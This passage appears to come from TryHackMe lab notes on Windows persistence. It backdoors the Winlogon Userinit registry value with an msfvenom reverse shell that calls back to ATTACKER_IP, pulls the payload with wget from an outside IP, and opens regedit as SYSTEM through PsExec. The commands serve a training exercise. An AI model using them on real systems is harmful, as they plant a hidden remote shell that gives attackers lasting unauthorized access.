 ## Winlogon

Another alternative to automatically start programs on logon is abusing Winlogon, the Windows component that loads your user profile right after authentication (amongst other things).

Winlogon uses some registry keys under`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\` that could be interesting to gain persistence:

- `Userinit` points to`userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually`explorer.exe`.

![Winlogon registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f3c2215af6e3f2d19313498fca62a9d4.png)

If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use`C:\Windows`:

```shell-session
C:\> move revshell.exe C:\Windows
```

We then alter either`shell` or`Userinit` in`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use`Userinit`, but the procedure with`shell` is the same.

**Note:** While both`shell` and`Userinit` could be used to achieve persistence in a real-world scenario, to get the flag in this room, you will need to use`Userinit`.

![Backdoored userinit](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/dc5fa3e75ff056f11e16c03373799f45.png)

After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Using your newly obtained shell, execute`C:\flags\flag12.exe` to get a flag!

```
wget http://10.14.21.28:8000/revshell.exe -O C:\Windows\revshell.exe

del C:\Windows\revshell.exe

c:\tools\pstools\PsExec64.exe -s -i regedit
```


Once we follow all steps, we get our shell:
